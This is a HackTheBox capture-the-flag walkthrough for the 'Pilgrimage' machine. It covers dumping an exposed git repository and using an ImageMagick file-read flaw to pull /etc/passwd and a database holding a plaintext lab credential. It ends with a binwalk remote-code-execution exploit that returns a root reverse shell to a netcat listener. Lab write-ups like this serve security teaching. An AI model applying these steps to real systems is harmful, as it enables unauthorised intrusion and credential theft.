

# Pilgrimage

## Overview

Greetings everyone,

In this write-up, we will tackle Pilgrimage from HackTheBox.

Machine link: [Pilgrimage](https://app.hackthebox.com/machines/Pilgrimage)

Difficulty Level: Easy

Let's Begin 🙌

Firstly, connect to the HTB server using the OpenVPN configuration file generated by HTB.  [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to VPN and access the boxes.

Once connected to the VPN service, click on "Join Machine" to access the machine's IP.

Upon joining the machine, you will be able to view the IP address of the target machine.

***

## Reconnaissance

### Rustscan

`rustscan -a 10.10.11.219 -- -A`

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Nmap Default Scripts

`nmap -sC -p 22,80 10.10.11.219`

<figure><figcaption></figcaption></figure>

### Results

From the output of `rustscan` , we can devise that the two open ports found:

| Port | Service |
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |

From the results of the default scripts, we have found a git repository.

<figure><figcaption></figcaption></figure>

***

## Information Gathering - Git Repository

Now we can dump this git repository using the tool `git-dumper`.

You can install `git-dumper` using following steps:

* First create a python virtual environment using the command `python3 -m venv env`.
* Next activate the virtual environment using the command `source ./env/bin/activate`.
* Now install `git-dumper` using `pip3 install git-dumper`.

<figure><figcaption></figcaption></figure>

Now its time to dump the git repository.

<figure><figcaption></figcaption></figure>

When I tried to dump the website using the IP address, the request get’s redirected. So I visited the website on port 80.

<figure><figcaption></figcaption></figure>

The website gets redirected to `pilgrimage.htb`. To visit the website we have add this domain to our machines `hosts` file. Open `/etc/hosts` file with root permissions with your favourite text editor and add the following: `10.10.11.219 pilgrimage.htb`and save the file.

<figure><figcaption></figcaption></figure>

Now reload the website.

<figure><figcaption></figcaption></figure>

You can see the website now opens. Let’s try `git-dumper` using the domain name.

<figure><figcaption></figcaption></figure>

And it worked. After the dump is completed, I opened the entire project folder in vscode to view the code.

I checked the `login.php` and `register.php`, was looking out for SQL injection vulnerabilities but, didn’t found anything. Next I checked the `index.php` page and found that the website uses `magick` tool to resize the images.

***

## Initial Access

I checked the `magick` tool version and found the version.

<figure><figcaption></figcaption></figure>

I googled out for this version and found this vulnerability: [https://www.exploit-db.com/exploits/51261](https://www.exploit-db.com/exploits/51261).

From the above link found the proof of concept : [https://github.com/voidz0r/CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268).

To exploit this vulnerability, first I cloned the proof of concept repository.

<figure><figcaption></figcaption></figure>

Next I installed `rust` to run the downloaded tool using the command: `curl https://sh.rustup.rs -sSf | sh`. After installing `rust` run the following command to use cargo: `source ~/.cargo/env`.

Now run the tool and exploit the LFI vulnerability, first try to read the `/etc/passwd` file.

<figure><figcaption></figcaption></figure>

Next upload the create `image.png` to the website to shrink it. After shrinking copy the resized image URL.

<figure><figcaption></figcaption></figure>

Next download the resized image.

<figure><figcaption></figcaption></figure>

Now view the raw content of the downloaded image using the `magick` tools `identify` utility. Use the same `magick` tool, that we got from the git dump.

<figure><figcaption></figcaption></figure>

Scroll down to get the raw hex version of the embedded details of the `/etc/passwd` file from the target machine.

<figure><figcaption></figcaption></figure>

Copy the above block of hex code and put it in [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/), and use the ingredient named `From Hex`.

<figure><figcaption></figcaption></figure>

From the decode text, we have found a user named `emily` on the target machine.

If you check the `register.php` page that we got from the git dump, you can see that the database connection is made by using a db file `/var/db/pilgrimage`.

<figure><figcaption></figcaption></figure>

Now, this time instead of reading `/etc/passwd` file, we can try to read the `/var/db/pilgrimage` file. Now create the payload image.

<figure><figcaption></figcaption></figure>

Next upload the payload image and download the resized image.

<figure><figcaption></figcaption></figure>

Now view the raw content of the image. I piped the output to vscode, since the output has more lines which I can’t able to copy from the terminal.

<figure><figcaption></figcaption></figure>

Now copy the raw content and put it in cyber chef.

Since the output is sqlite db file, I downloaded the output using the download option, and opened it in a sqlite db viewer.

<figure><figcaption></figcaption></figure>

After decoding and downloading the file, go to [https://sqliteviewer.app/](https://sqliteviewer.app/) and upload the downloaded file to view the contents of the db.

<figure><figcaption></figcaption></figure>

We have found a credential, `emily:abigchonkyboi123`.

***

## Getting the User Flag

Now we have got a password for `emily`. let’s try to ssh to the target machine using the above credentials.

<figure><figcaption></figcaption></figure>

We have successfully found the user flag. Next we have to escalate our privileges to read the root flag.

***

## Privilege Escalation

I started looking out for some common Privilege Escalation vectors, such as files with SUID bit, commands that we can execute as sudo and also checked for NFS shares.

<figure><figcaption></figcaption></figure>

And also looked out for cron jobs, but found nothing interesting.

<figure><figcaption></figcaption></figure>

Next, I used `PsPy` \[ [https://github.com/DominicBreuker/pspy/releases/](https://github.com/DominicBreuker/pspy/releases/) ] tool to check out for active processes.

Since, out target machine doesn’t have a internet connection, we have to move it from our local machine to the target machine. For that first we have to download pspy on our local machine.

<figure><figcaption></figcaption></figure>

After downloading pspy, its time to move it to the target machine.

Start a simple python http server on our local machine in the same directory where the pspy tool is located.

<figure><figcaption></figcaption></figure>

Now in the target machine, download the tool using `wget`.

Command: `wget http://<LocalMachine_tun0_IP>/pspy64`

<figure><figcaption></figcaption></figure>

After downloading the tool, give it executable permission.

<figure><figcaption></figcaption></figure>

Now run the tool.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

From the output of pspy, we can see a shell script named `malwarescan.sh`, which is located at `/usr/sbin/malwarescan.sh`, which has a UID of 0, which means it is executed with root permission.

I tried to view the contents of the file.

<figure><figcaption></figcaption></figure>

The contains a simple bash script, which actively checks the `/var/www/pilgrimage` directory for new files, looking out for `Executable script` and `Microsoft executable`, and removes them if it finds. It uses the `binwalk` tool, located at `/usr/local/bin/binwalk`, to perform the check.

I checked the version of `binwalk` and googled about that particular version.

<figure><figcaption></figcaption></figure>

I found this: [https://www.exploit-db.com/exploits/51249](https://www.exploit-db.com/exploits/51249). From this we came to know that the binwalk tool is vulnerable to Remote Code Execution.

To exploit this vulnerability, first I downloaded the exploit in my local machine:

Command: `wget https://www.exploit-db.com/download/51249`.

<figure><figcaption></figcaption></figure>

After downloading, run the exploit.

If you check the source code of the exploit, we can see that it expects three arguments.

<figure><figcaption></figcaption></figure>

It first expects a image file with `png` extension \[ Any image of type PNG of your choice ], next it expects the IP address and PORT for the netcat listener, that we will be setting up in our local machine, to get a reverse shell back.

Now with all the requirements run the exploit.

<figure><figcaption></figcaption></figure>

Now we have got the payload ready. Its time to move this payload to the target machine. Start the http server and download the payload to the target machine.

<figure><figcaption></figcaption></figure>

Now start a netcat listener on port 8080 on your local machine.

<figure><figcaption></figcaption></figure>

After downloading the payload on the target machine, move the payload to `/var/www/pilgrimage.htb/shrunk/` directory, since the `malwarescan.sh` script actively checks that location for changes.

<figure><figcaption></figcaption></figure>

After moving the file, check your netcat listener.

***

## Getting the Root Flag

<figure><figcaption></figcaption></figure>

We have successfully got the connection back and escalated our privileges as root, also got the root flag successfully.

Thank You……..
